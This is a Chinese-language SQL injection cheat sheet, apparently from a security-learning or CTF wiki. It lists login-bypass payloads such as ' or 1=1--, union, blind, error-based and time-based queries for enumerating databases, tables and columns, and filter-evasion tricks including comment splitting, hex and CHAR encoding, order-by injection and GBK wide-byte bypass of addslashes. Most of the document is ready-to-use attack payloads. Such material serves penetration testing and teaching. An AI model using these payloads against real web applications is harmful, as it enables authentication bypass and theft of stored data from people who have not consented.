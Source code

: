# SQL 注入

## 基本概念

* SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
* 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
* 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

## 常用工具

* Burp Suite：[Burp Suite 使用介绍](http://static.hx99.net/static/drops/tools-1548.html)
* Tamper Data \(Firefox addon\)
* HackBar \(Firefox addon\)
* sqlmap：[sqlmap 用户手册](http://static.hx99.net/static/drops/tips-143.html)

## 注入常见参数

* `user()`：当前数据库用户；
* `database()`：当前数据库名；
* `version()`：当前使用的数据库版本；
* `@@datadir`：数据库存储数据路径；
* `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`；
* `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来；
* `concat_ws()`：用法类似；
* `hex()` 和 `unhex()`：用于 hex 编码解码；
* `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`；
* `select xxoo into outfile '路径'`：权限较高时可直接写文件。


## 语法参考与小技巧

### 行间注释

* `--`

  ```sql
  DROP sampletable;--
  ```

* `#`

  ```sql
  DROP sampletable;#
  ```

### 行内注释

- `/*注释内容*/`

  ```sql
  DROP/*comment*/sampletable`
  DR/**/OP/*绕过过滤*/sampletable`
  SELECT/*替换空格*/password/**/FROM/**/Members
  ```

- `/*! MYSQL专属 */` 

  ```sql
  SELECT /*!32302 1/0, */ 1 FROM tablename
  ```


### 字符串编码

* `ASCII()`：返回字符的 ASCII 码值；
* `CHAR()`：把整数转换为对应的字符。

## 后台万能密码

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`


## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

- union 查询

  ```sql
  --MySQL 4版本时用version=9，MySQL 5版本时用version=10
  UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
  /* 列出当前数据库中的表 */
  UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();
  /* 列出所有用户自定义数据库中的表 */
  SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
  ```

- 报错

  ```sql
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
  -- 在5.1.5版本中成功。
  ```

### 列名

- union 查询

  ```sql
  UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
  ```

- 报错

  ```sql
  -- 在5.1.5版本中成功。 AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- MySQL 5.1版本修复了
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
  ```

- 利用 `PROCEDURE ANALYSE()`

  ```sql
  -- 这个需要 web 展示页面有你所注入查询的一个字段。
  -- 获得第一个段名 
  SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE() 
  -- 获得第二个段名 
  1 LIMIT 1,1 PROCEDURE ANALYSE() 
  -- 获得第三个段名
  1 LIMIT 2,1 PROCEDURE ANALYSE() 
  ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用`CONCAT_WS()` 。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`. 

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`. 

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

````
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
````

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

````
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
````

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你「入」`%bf%27` 时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c`在 GBK 中变为一个宽字符“縗”。`%bf`那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

## 参考资料

- [SQL 注入速查表](http://static.hx99.net/static/drops/tips-7840.html)
- [MySQL 注入技巧](http://static.hx99.net/static/drops/tips-7299.html)
- [MySQL 注入科普](http://static.hx99.net/static/drops/tips-123.html)
- [MySQL 注入总结](http://www.91ri.org/4073.html)
- [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)


